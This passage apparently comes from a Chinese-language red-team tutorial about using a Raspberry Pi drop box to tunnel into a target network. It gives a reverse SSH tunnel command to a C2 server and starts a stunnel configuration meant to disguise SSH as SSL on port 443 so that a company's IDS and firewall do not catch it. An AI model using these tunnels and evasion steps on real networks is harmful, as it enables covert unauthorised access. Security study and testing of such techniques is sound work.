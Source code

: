 因此，由于 SSH 协议设置正确，我们可以通过运行以下命令将所有连接从 Raspberry Pi 隧道传输到 C2 服务器:

**关于树莓派:**

```
sudo ssh -i /root/.ssh/vps -nNT -R 5555:localhost:22 <C2 Server IP>
```

**在 C2 服务器上:**

```
ssh pi@localhost -p 5555
```

![](img/04a4ea4610679c0b16bcdcd251ee34d3.png)

好的。现在，由于我们经历了两种不同的隧道方法(TCP 和 SSH 协议)，我将简要地向您解释，为什么我包括和使用下一种方法(SSH/SLL)。

让我们想象一下，我们将攻击某个大公司，该公司的 IT 部门也有系统管理员，他们使用某种 IDS、IPS 和 FW 来进行深度数据包检查、定期扫描等。在这类公司中，网络通常会阻塞端口 22。此外，如果您通过端口 443 进行 SSH，他们的系统会识别并丢弃流量。这就是我选择 stunnel 的原因，这样我就可以建立看起来像 SSL 流量的 SSH 连接隧道。我在端口 443 上建立了 SSL 隧道，所以它看起来像正常的 SSL 流量，因此 FW 将允许流量。

**方法 3 —使用 SSH/SSL 创建隧道**

首先，我们需要在 Raspberry Pi 上生成私有和公共密钥，并将公共密钥放在 C2 服务器上，就像我们在前面的方法(SSH)中所做的那样。

**设置树莓 Pi:**

**安装 stunnel:**

```
apt-get install stunnel4
```

**安装 autosh:**

```
apt-get install autossh
```

之后，我们需要创建 stunnel 配置文件**/etc/stunnel/stunnel . conf**并添加以下内容:

```
pid = /var/run/stunnel.pid
client=yes
[ssh]
accept = 443
connect = <C2 Server IP>:443
```
